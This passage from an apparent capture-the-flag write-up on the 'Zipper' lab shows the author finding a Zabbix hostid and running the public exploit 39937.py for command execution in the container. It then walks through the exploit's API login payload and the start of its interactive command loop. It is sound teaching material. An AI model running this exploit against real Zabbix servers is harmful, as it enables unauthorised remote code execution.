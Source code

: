 The path, username, and password I already had at this point. I showed I could use the API to get the hostid, but I could also find that in the GUI as guest. In the Monitoring/Latest Data view, once filtered to see the hosts, if I click on Zipper and run a script, I can see the hostid in the url of the window the pops up:

![](https://0xdfimages.gitlab.io/img/zipper-gui-hostid.gif)

Now I can run the shell, and get code execution in the Zabbix container.

```

root@kali# python 39937.py 
[zabbix_cmd]>>:  hostname
91cae047f48a

```

### Shell Details

So what is the shell doing? I’ll walk it section by section.

The first block of code after defining the variables looks like this:

```

### auth
payload = {
        "jsonrpc" : "2.0",
    "method" : "user.login",
    "params": {
        'user': ""+login+"",
        'password': ""+password+"",
    },
        "auth" : None,
    "id" : 0,
}
headers = {
    'content-type': 'application/json',
}

auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
auth = auth.json()

```

This is just issuing the user.logon API call, just as I did above, to login. It’s grabbing the resulting json and storing it as `auth`.

Next, there’s a `while True:` loop. I’ll look at the loop in three parts. First, this block:

```

        cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
        if cmd == "" : print "Result of last command:"
        if cmd == "quit" : break

```
